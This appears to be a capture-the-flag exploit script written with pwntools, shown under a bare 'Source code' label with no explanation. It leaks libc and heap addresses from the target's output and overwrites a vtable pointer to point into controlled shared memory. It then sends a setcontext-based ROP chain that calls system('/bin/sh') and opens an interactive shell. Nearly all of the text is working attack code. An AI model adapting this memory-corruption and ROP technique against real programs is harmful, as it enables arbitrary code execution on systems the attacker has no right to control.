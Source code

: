 ```python
inb(0)
r.recvuntil('message\n')
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
dbg('leak')
base = leak - 0x10dff0
dbg('base')
system = base + 0x522c0
environ = base + 0x1ef600
binsh = base + 0x1b45bd
setcontext = base + 0x54f8d

# environ
payload = flat(0, environ, 8, str_m) 
while overwrite(payload) == False:
	pass
inb(1)
r.recvuntil('message\n')
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))

# heap
target = leak - 0x130
payload = flat(0, target, 8, str_m) 
while overwrite(payload) == False:
	pass
inb(2)
r.recvuntil('message\n')
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
heap = leak - 0x11ed0
p_shm = heap + 0x11eb8
dbg('heap')

# shm+1
payload = flat(0xdeadbeef, p_shm+1, 8, str_m) 
while overwrite(payload) == False:
	pass
inb(3)
r.recvuntil('message\n')
shm = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
shm <<= 8
dbg('shm')

# set vtable pointer to shm
payload = flat(shm+0x40-8, 0x1111, 0x2222, str_m) 
while overwrite(payload) == False:
	pass

if args.D:
	#debug(r, [])
	#debug_child(r, [0x24b3])
	debug_child(r, [0x2c31])

# send rop
payload = flat(setcontext, 0x111, heap + 0x13c90, rdi+1, rdi, binsh, system)
send(payload, 'a')

# call vtable
d(4)

r.interactive()
r.close()
```
